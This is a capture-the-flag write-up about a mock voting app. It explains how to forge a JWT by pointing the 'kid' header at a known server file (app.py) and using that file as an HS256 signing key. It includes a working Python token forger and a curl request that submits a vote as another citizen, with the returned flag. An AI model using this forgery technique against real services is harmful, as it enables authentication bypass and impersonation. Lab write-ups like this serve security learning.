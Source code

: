 # The voting logs ain't making sense
Most people probably managed to solve this one, and probably solved it using the intended method, however I ended up solving this one before doing the intended method for *I can be anyone!* and then used the same method to solve both challenges. This is how I did *I can be anyone!* the hard way.
### What We Need
The objective of the challenge is to submit a vote for the "CIT1337" user. For *I can be anyone!* the intended method is to obtain a JWT for the "CIT100" user from the `/generate-qr` endpoint. This method doesn't work for the CIT1337 user as a vote has already been recorded in the database. I believe the intended method for this challenge is to use an algorithm switching attack using the JWT for the CIT100 user. Instead, as the `decode_jwt_token` function allows you to specify the public key path in the `kid` header, I used a known file on the server with a symmetric algorithm to encode my own JWT.
### Encoding a Custom Token
For the symmetric key file, I used a file we've been provided that should be the same on the server: the `app.py` file. We just need to read this file in, and use it as a key in the `jwt.encode` function, using the `HS256` algorithm. Our script will look like this:
```python
import jwt
import os
from datetime import datetime, timedelta

def create_jwt_token(citizen_id, name, state, key_path, key):
    payload = {
        "citizenId": citizen_id,
        "name": name,
        "state": state,
        "vote_identifier": os.urandom(32).hex(),
        "iat": int(datetime.now().timestamp()),
        "exp": int((datetime.now() + timedelta(hours=24)).timestamp())
    }

    headers = {"kid": key_path}

    token = jwt.encode(
        payload,
        key,
        algorithm="HS256",
        headers=headers
    )

    return token

# Path to app.py locally
with open('backend-codebase/app.py', "r") as key_file:
    key = key_file.read()

print(create_jwt_token("CIT1337", "Jane Doe", "Izzi", "/app/app.py", key))
```
Then we use the resulting JWT to call the `/submit-vote` endpoint:
```
dot@Serpentis:~$ curl http://mobile-app.commission.freedonia.vote/api/voting/submit-vote \
> -H "Content-Type: application/json" \
> -H "Authorization: Bearer <Your JWT>" \
> --data '{"party": "test party"}'
{"citizen_id":"CIT1337","message":"Vote submitted successfully","party":"test party","state":"Izzi","success":true,"the_voting_logs_aint_making_sense_flag":"cysea{you_got_to_be_KIDding_me}"}
```
You can also solve *I can be anyone!* by changing the CIT1337 value to CIT100 when generating the token, and submitting again using the new JWT.